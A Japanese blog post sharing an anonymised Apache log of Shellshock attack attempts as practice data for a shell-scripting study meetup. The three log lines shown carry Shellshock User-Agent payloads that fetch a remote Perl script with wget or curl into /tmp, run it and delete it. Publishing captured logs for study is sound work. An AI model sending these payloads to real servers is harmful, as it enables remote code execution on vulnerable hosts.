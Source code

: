 ```yaml
---
Keywords:ログ,apache,shellshock,USP友の会,勉強会,シェル芸,シェル芸勉強会
Copyright: (C) 2017 Ryuichi Ueda
---
```

# 第16回シェル芸勉強会で使うログ（邪悪なApache ShellShockログ）を公開します
これは<a href="http://blog.ueda.asia/?p=5620" title="シェル芸が実写化されました">エイプリルフール</a>でもなんでもなく、必要なので公開します。当日公開のほうが盛り上がるかなーと思ったのですが、出し惜しみせずに練習してもらった方がよいかと判断しました。<a href="https://usptomo.doorkeeper.jp/events/22117">第16回シェル芸勉強会のページはこちらです。</a><br />
<br />
今のところ、ログは<a href="http://ita.ee.lbl.gov/html/contrib/NASA-HTTP.html">NASAが公開しているもの</a>と、次のShellshock関連のログ（採取元: 私のブログ）を用いようと考えています。ナマのログを出すとあんまりよくないと考え、IPアドレスは頭をすべて192.168に変換しています。<br />
<br />
<!--more--><br />
<br />
<a href="access.log_.shellshock.gz">http://blog.ueda.asia/wp-content/uploads/2015/04/access.log_.shellshock.gz</a><br />
<br />
これが中身です。どんな問題が出るか予想しながらいじってみていただければと。<br />
<br />
[bash]<br />
uedambp:tmp ueda$ gzcat access.log.shellshock.gz | tail -n 3<br />
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] &quot;GET /phppath/cgi_wrapper HTTP/1.1&quot; 302 227 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\&quot;);'&quot;<br />
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] &quot;GET /phppath/php HTTP/1.1&quot; 302 219 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\&quot;);'&quot;<br />
192.168.225.64 - - [15/Dec/2014:03:12:20 +0900] &quot;GET /phppath/cgi_wrapper HTTP/1.1&quot; 302 227 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget -q http://192.168.63.71/android.txt -O /tmp/android.txt;perl /tmp/android.txt;rm -rf /tmp/android*\\&quot;);'&quot;<br />
[/bash]<br />
<br />
<br />
ヤバイ・・・<br />
<br />
<br />
寝る。
